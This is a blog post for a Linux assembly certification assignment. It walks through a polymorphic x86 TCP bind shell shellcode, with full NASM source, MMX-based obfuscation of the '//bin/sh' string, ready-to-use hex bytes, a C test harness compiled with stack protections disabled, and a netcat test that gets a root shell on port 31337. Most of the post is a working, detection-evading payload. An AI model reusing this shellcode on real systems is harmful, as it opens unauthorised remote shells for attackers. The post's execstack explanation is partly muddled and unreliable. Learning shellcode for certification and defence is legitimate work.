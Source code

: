 ```yaml
---
title: SLAE32 Assignment 6.1 - Polymorphic MMX Bind Shell
date: 2019-9-5
layout: single
classes: wide
tags:
  - Bind
  - Shell
  - polymorphic
  - MMX
  - Assembly
  - SLAE
  - Linux
  - Shellcode
--- 
```

![](/assets/images/SLAE32.png)
```console
This blog post has been created for completing the requirements
 of the SecurityTube Linux Assembly Expert certification:
http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
	- Now at: https://www.pentesteracademy.com/course?id=3
SLAE/Student ID: PA-10913
```
## Overview
For the sixth assignment in the SLAE32 Exam, we needed to create 3 polymorphic shellcodes; from existing shellcodes at shell-storm.org.   
_What is Polymorphic Shellcode?_   
Polymorphic shellcode means that it uses different assembly instructions to deliver the same payload.    
For example, all of the below instructions will result in the same action.

```nasm
mov eax, 0x00000000      ; Clears the EAX Register
xor eax, eax             ; Clears the EAX Register
sub eax, eax             ; Clears the EAX Register
```

The first shellcode I modified was `tcpbindshell (108 bytes)`, created by Russell Willis.  
+ This shellcode can be found at `http://shell-storm.org/shellcode/files/shellcode-847.php`.  

Our assignment required that our polymorphic version of the shellcode to not exceed 150% of the original value.   
+ The original shellcode length is `108 bytes`. 
+ The final length of this polymorphic shellcode is `144 bytes`.    

## Polymorphic Shellcode
+ The code I added/modified is indented with one space.

```nasm
global _start
_start:
 xor	ecx,ecx   ; Makes the ECX Register 0
 mul	ecx       ; ECX*EAX. Result is stored in EDX:EAX. 
                  ;  This clears the EDX and EAX.
 mov ebx, eax     ; sets the EBX register to 0
 push byte 0x66
 pop edi          ; save this for the other functions
 mov eax, edi	  ; eax is now 0x66 which is the socketcall SYScal
 inc ebx          ; EBX = 1; needed to create the socket()
 push edx
push   0x6
 push ebx         ; push 0x1 to the stack 
push   0x2
mov    ecx,esp
int    0x80       ; System Call
 xchg esi,eax     ; Save the output of the syscal to the ESI register
 mov eax, edi     ; EAX = 0x66 used for socketcall SYSCAL
 inc ebx          ; EBX = 0x2
push   edx
push word 0x697a  ; port TCP 
push   bx
mov    ecx,esp
push   0x10
push   ecx
push   esi
mov    ecx,esp
int    0x80       ; System Call
 mov eax, edi     ; EAX = 0x66 used for socketcall SYSCAL
 inc ebx
 inc ebx          ; EBX = 0x4
push   0x1
push   esi
mov    ecx,esp
int    0x80       ; System Call
 mov eax, edi     ; EAX = 0x66 used for socketcall SYSCAL
 inc ebx
push   edx
push   edx
push   esi
mov    ecx,esp
int    0x80       ; System Call
; setup dup2 loop
mov    ebx,eax
xor    ecx,ecx
mov    cl,0x3
; dup2
dup2Loop:
	dec ecx
mov    al,0x3f
int    0x80       ; System Call
jne    dup2Loop
push   edx
 mov edx, 0xffffffff     ; used to XOR the MM0 Register to result in "//bin/sh"
 mov eax, 0x978cd091     ; "n/sh" XOR'd with 0xffffffff
 movd mm0, eax
 psllq mm0, 32           ; shift the mm0 register left by 4 bytes
 mov ebx, 0x969dd0d0     ; "//bi" XOR'd with 0xffffffff
 movd mm1, ebx
 paddb mm0, mm1          ; now mm0 hold the 8 byte XOR'd "//bin/sh"
 movd mm1, edx           ; mm1 is now 0xffffffff
 psllq mm1, 32           ; mm1 is now 0xffffffff00000000
 movd mm2, edx           ; mm2 us biw 0xffffffff
 paddb mm1, mm2          ; mm1 is now 0xffffffffffffffff
 pxor mm0, mm1           ; XOR's mm0 with mm1 and saves the results in mm0
 sub esp, 8              ; Decrement the stack 8 bytes
 movq qword [esp], mm0   ; push "//bin/sh" from mm0 to the top of the stack
xor    eax,eax
mov    ebx,esp
push   eax
push   ebx
mov    ecx,esp
push   eax
mov    edx,esp
mov    al,0xb
int    0x80       ; System Call
```  

+ To push the filename string `//bin/sh` onto the stack, I used the MMX registers.   

### Compiling the Shellcode

```console
root# nasm -f elf32 mmxTcpBindShell.nasm -o mmxTcpBindShell.o
root# ld mmxTcpBindShell.o -o mmxTcpBindShell
```

### Getting the Hex of the Shellcode

```console
root# objdump -d tcpBindShell  | grep '[0-9a-f]:' | grep -v 'file' | \
cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | \
sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02"
"\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a"
"\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80"
"\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0"
"\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e"
"\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e"
"\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f"
"\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80"
``` 

### Injecting the Shellcode in a Host Program
+ I loaded it into our shellcode testing program to ensure it still worked when injected into a host program.  

```c
// Filename: shellcode.c
// Author:   boku
#include<stdio.h>
#include<string.h>
unsigned char code[] = \
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02"
"\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a"
"\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80"
"\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0"
"\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e"
"\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e"
"\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f"
"\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";
main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
+ I then compiled the C program.  

#### Compiling the Host Program
```console
gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```
+ we use the feature `no-stack-protector` to disable canary stack protections that are automattically added when using the gcc compiler.
+ The option `execstack` disables the Data Execution Protection (DEP) mechanism automatically added when compiling with gcc. 
  - This makes the stack non-executable.
  - The stack would be only read and write if we didn't disable this.

### Testing the Polymorphic Shellcode
#### Window 1
```console
root# ./shellcode
Shellcode Length:  144
```

#### Window 2
```console
root# netstat -tnalp | grep shellcode
tcp        0      0 0.0.0.0:31337           0.0.0.0:*               LISTEN      19649/shellcode
root# nc 127.0.0.1 31337
whoami
root
```
+ Awesome! Our version of the shellcode works as intended.
+ Having no `root#` or `user$` is typical of bind shells.




